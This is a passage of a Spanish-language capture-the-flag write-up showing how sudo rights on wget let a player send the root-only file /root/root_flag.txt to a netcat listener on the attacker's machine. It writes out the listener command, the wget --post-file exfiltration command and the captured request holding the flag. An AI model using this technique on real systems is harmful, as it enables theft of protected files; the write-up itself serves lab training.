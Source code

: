 `wget` tiene una opción llamada `--post-file`, la cual permite enviar el contenido de un archivo al servidor especificado mediante una solicitud HTTP POST. Dado que podemos ejecutar `wget` como root, también podemos acceder a archivos protegidos, como `/root/root_flag.txt`.

En la máquina atacante, levantamos un listener con `netcat`:

```bash
nc -lvnp 443
```

Luego, en la máquina víctima, ejecutamos el siguiente comando:

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<tu_IP>:443
```

#### Resultado

Desde nuestro `netcat`, recibimos la siguiente salida:

```bash
(zikuta㉿zikuta)-[~]
└─$ nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.23.120.245] from (UNKNOWN) [10.10.180.210] 52072
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.23.120.245:4443
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```

Y con eso, **hemos obtenido el flag de root** sin necesidad de establecer una reverse shell como root, aprovechando únicamente los permisos de `sudo` sobre `wget`.